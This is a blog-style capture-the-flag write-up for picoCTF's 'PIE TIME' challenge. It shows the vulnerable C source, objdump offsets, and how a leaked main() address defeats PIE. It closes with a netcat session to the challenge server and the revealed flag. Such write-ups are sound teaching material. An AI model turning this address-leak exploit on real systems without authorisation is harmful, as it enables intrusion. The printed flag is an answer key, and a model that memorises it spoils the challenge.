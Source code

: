 ```yaml
---
description: 'Author: Darkraicg492'
---
```


# PIE TIME

***

### 📝 Description

Can you get the flag? Beware… we got PIE 🍰

***

### 🛠️ Step 1: Reconnaissance aka “checksec go brrr”

Like every responsible hacker (or gremlin that touches random binaries at 3 AM), we start with:

```
└─$ checksec --file=vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   78 Symbols        No    0               1               vuln
```

Boom 💥 — it screams **PIE enabled**.\
Translation: “good luck bro, addresses go brrrr every run.”

I really recommend reading a bit of introduction about PIE so you can vibe along with me :P

Read here: [https://ir0nstone.gitbook.io/notes/binexp/stack/pie](https://ir0nstone.gitbook.io/notes/binexp/stack/pie)

***

### 📖 Step 2: Peeking at the source code

The challenge was kind enough to hand us the source code (tysm challenge author, very generous 🙏).

```
void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main); // Print main address here

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

Key things to note:

*   Program literally asks you:

    ```
    Enter the address to jump to: 
    ```

    And then it just… jumps there 💀. Like bruh, that’s the exploit.
* There’s a **win()** function that does the gamer thing: prints the flag.
* But the binary is PIE, so win()’s address plays hide & seek every execution.

***

### 🤔 So what’s the game plan?

We need the address of `win()`. But since PIE is here trolling us, we can’t hardcode it.

Luckily, the program prints the address of `main()` each run.\
That’s our anchor point.

#### Formula™️

```
base = main_address - main_offset
win_address = base + win_offset
```

***

### 🔍 Step 3: Grab those offsets

Let’s objdump this binary:

```
objdump -d vuln | grep ">:"
```

Output:

```
00000000000012a7 <win>:
000000000000133d <main>:
```

* win\_offset = `0x12a7`
* main\_offset = `0x133d`

***

### 🧮 Step 4: Put it all together

Say the program gives:

```
Address of main: 0x558860d7633d
```

We do some quick math (or just yeet it into Python because who does hex in their head lol):

```python
>>> hex((0x558860d7633d - 0x133d) + 0x12a7)
'0x558860d762a7'
```

That’s our win() address 🎯.

***

### 🎉 Step 5: Profit (aka flag time)

Send that bad boy into the program:

```atom
└─$ nc rescued-float.picoctf.net 54799
Address of main: 0x609e7137533d
Enter the address to jump to, ex => 0x12345: 0x609e713752a7
Your input: 609e713752a7
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_28a46dcd}
```

***

### 🔑 Key Takeaways&#x20;

* **PIE** = Position Independent Executable = addresses go brrrr each run.
* Use a **known leaked address** (like main) as your reference.
* Subtract the offset → get base → add target offset → 🎯 correct function address.
* Sometimes CTFs literally ask you for the address and let you win 😂.

***

✨ Moral of the story: PIE may shift, but math don’t lie. ✨

Again, I recommend reading some info here: [https://ir0nstone.gitbook.io/notes/binexp/stack/pie](https://ir0nstone.gitbook.io/notes/binexp/stack/pie)&#x20;
